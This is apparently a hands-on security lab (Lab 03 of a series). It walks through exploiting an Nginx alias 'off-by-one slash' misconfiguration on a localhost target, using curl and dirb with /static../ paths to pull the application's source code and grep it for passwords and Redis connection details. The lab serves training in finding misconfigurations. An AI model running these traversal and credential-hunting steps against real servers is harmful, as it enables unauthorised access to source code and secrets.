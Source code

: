 # Lab 03 - Path Traversal Discovery via Nginx Misconfiguration (discover source code)

## Objective

Exploit an Nginx "off-by-one slash" misconfiguration on the `/static` directory to discover path traversal vulnerabilities and access files outside the intended directory scope.

## Background

Path traversal vulnerabilities occur when an application allows access to files and directories outside of the intended scope. A common Nginx misconfiguration involves the `alias` directive when combined with location blocks that don't have trailing slashes.

**The Vulnerability Pattern:**

When Nginx is configured like this:
```nginx
location /static {
    alias /app/static/;
}
```

Notice the `/static` location lacks a trailing slash, but the alias path has one. This creates an "off-by-one slash" vulnerability.

**How it's exploited:**
- Request: `GET /static../`
- Nginx resolves: `/app/static/` + `..`
- Final path: `/app/static/..` = `/app/`
- Result: Access to the parent directory!

This lab will teach you to systematically discover and exploit this misconfiguration.

## Steps

### 1. Recall Your Directory Discoveries

From Lab 02, you should have discovered the `/static/` directory using `dirb` with `common.txt`. If you need to verify:

```bash
dirb http://localhost:8080 common.txt
```

Expected output should include:
```
==> DIRECTORY: http://localhost:8080/static/
```

### 2. Test for Nginx Off-by-One Slash Misconfiguration

Now test if the `/static` location is vulnerable to the off-by-one slash bugwith curl:

```bash
# Try accessing /static.. (note the two dots but NO slash after static)
curl -I http://localhost:8080/static..

```

**What to look for:**
- HTTP 200 response = Potentially vulnerable
- HTTP 404 response = Not vulnerable or different configuration
- HTTP 301/302 = Redirection (investigate where it redirects)

### 3. Test Path Traversal with dirb - Phase 1 (common.txt)

Use `dirb` to enumerate files accessible through the path traversal with the common wordlist:

```bash
dirb http://localhost:8080/static../ commont.txt
```

**Expected discoveries:**
```
+ http://localhost:8080/static../templates/index.html (CODE:200|SIZE:11081)
==> DIRECTORY: http://localhost:8080/static../resumes/
==> DIRECTORY: http://localhost:8080/static../templates/

```

Try the same dirb scan, but with the common-web-server.txt wordlist:

```bash
dirb http://localhost:8080/static../ common-web-sever.txt
```

**Expected discoveries:**
```
+ http://localhost:8080/static../app.py (CODE:200|SIZE:28028)
==> DIRECTORY: http://localhost:8080/static../resumes/
==> DIRECTORY: http://localhost:8080/static../templates/

```
* we found the source code file at app.py !!!

**Why this works:**
- `dirb` tests: `http://localhost:8080/static../app.py`
- Nginx resolves: `/app/static/../app.py` = `/app/app.py`
- Result: Application source code exposed!

### 4. Manually Verify the Path Traversal

Confirm the vulnerability manually by accessing the discovered files, using curl or your browser:

```bash
# Try to access app.py
curl http://localhost:8080/static../app.py

# Try to access requirements.txt
curl http://localhost:8080/static../requirements.txt
```

**If successful, you should see:**
- `app.py`: Python/Flask application source code
- `requirements.txt`: Python package dependencies

### 5. Download and Examine app.py (Flask Application)

Retrieve the main application file, and requirements.txt file:

```bash
# Download app.py
curl http://localhost:8080/static../app.py -o app.py
curl http://localhost:8080/static../requirements.txt -o requirements.txt

# View the contents
cat app.py
```

**What to look for in app.py:**
- **Import statements**: What frameworks and libraries are used?
- **Database connections**: Look for connection strings
- **Redis references**: Search for Redis-related code
- **Routes/endpoints**: What URLs does the app handle?
- **File upload handling**: How are uploads processed?
- **Security controls**: Authentication, validation, etc.

**Search for specific items:**
```bash
# Look for Redis container references
grep -i "redis" app.py

# Look for database credentials
grep -i "password" app.py

# Look for file paths
grep -i "upload" app.py
grep -i "resume" app.py
```

### 6. Examine the Redis Container Reference

In the Flask app.py file, you should find a Redis connection string:

```python

rpass = os.getenv("REDIS_PASSWORD")
rserver = os.getenv("REDIS_CONTAINER")

# Example from app.py:
redis_client = redis.Redis(
    host=rserver,
    port=6379,
    password=rpass,
    db=0
)
```

**Document these critical details:**
- **Redis host**: `rserver`(see where in the code this is set)
- ***ENV variable: REDIS_CONTAINER***
- **Redis port**: `6379`
- **Redis password**: `rpass`(see where in the code this is set)
- **Database number**: `0`

Notice that the redis server is referenced as a container. Maybe this is a Docker container setup? Let's see if there are docker files using our path traversal.

**Why this matters:**
- You now know Redis is being used
- You can potentially connect to Redis directly, if you find credentials
- This will be crucial for exploitation in later labs


---

[← Previous: Interrogate Server](lab-02-interrogate-server.md) | [Next: Extract Docker Files →](lab-04-extract-docker-files.md)


